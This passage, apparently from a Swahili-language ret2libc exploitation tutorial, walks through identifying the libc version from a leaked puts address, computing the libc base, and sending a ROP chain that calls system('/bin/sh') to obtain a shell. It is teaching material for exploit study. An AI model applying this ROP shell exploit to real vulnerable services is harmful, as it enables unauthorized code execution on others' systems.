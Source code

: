 - Jina la alama ya Libc: `puts`
- Anwani ya libc iliyovuja: `0x7ff629878690`

Tunaweza kubaini ni **libc** ipi ambayo ina uwezekano mkubwa inatumika.
```bash
./find puts 0x7ff629878690
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
archive-glibc (id libc6_2.23-0ubuntu11_amd64)
```
Tunapata mechi 2 (unapaswa kujaribu ya pili ikiwa ya kwanza haifanyi kazi). Pakua ya kwanza:
```bash
./download libc6_2.23-0ubuntu10_amd64
Getting libc6_2.23-0ubuntu10_amd64
-> Location: http://security.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.23-0ubuntu10_amd64.deb
-> Downloading package
-> Extracting package
-> Package saved to libs/libc6_2.23-0ubuntu10_amd64
```
Nakili libc kutoka `libs/libc6_2.23-0ubuntu10_amd64/libc-2.23.so` hadi kwenye directory yetu ya kazi.

### 3.3- Kazi nyingine za kuvuja
```python
puts
printf
__libc_start_main
read
gets
```
## 4- Kupata anwani ya libc kulingana na msingi & kutumia

Katika hatua hii tunapaswa kujua maktaba ya libc inayotumika. Kwa kuwa tunatumia binary ya ndani, nitatumia tu: `/lib/x86_64-linux-gnu/libc.so.6`

Hivyo, mwanzoni mwa `template.py` badilisha **libc** variable kuwa: `libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") #Set library path when know it`

Kutoa **path** kwa **maktaba ya libc** sehemu nyingine ya **exploit itahesabiwa kiotomatiki**.

Ndani ya `get_addr`function **anwani ya msingi ya libc** itahesabiwa:
```python
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))
```
> [!NOTE]
> Kumbuka kwamba **anwani ya mwisho ya msingi ya libc lazima iishe na 00**. Ikiwa hiyo si hali yako unaweza kuwa umepata maktaba isiyo sahihi.

Basi, anwani ya kazi `system` na **anwani** ya mfuatano _"/bin/sh"_ zitakuwa **zinahesabiwa** kutoka kwa **anwani ya msingi** ya **libc** na kutolewa kwa **maktaba ya libc.**
```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```
Hatimaye, exploit ya utekelezaji wa /bin/sh itakuwa tayari kutumwa:
```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

#### Interact with the shell #####
```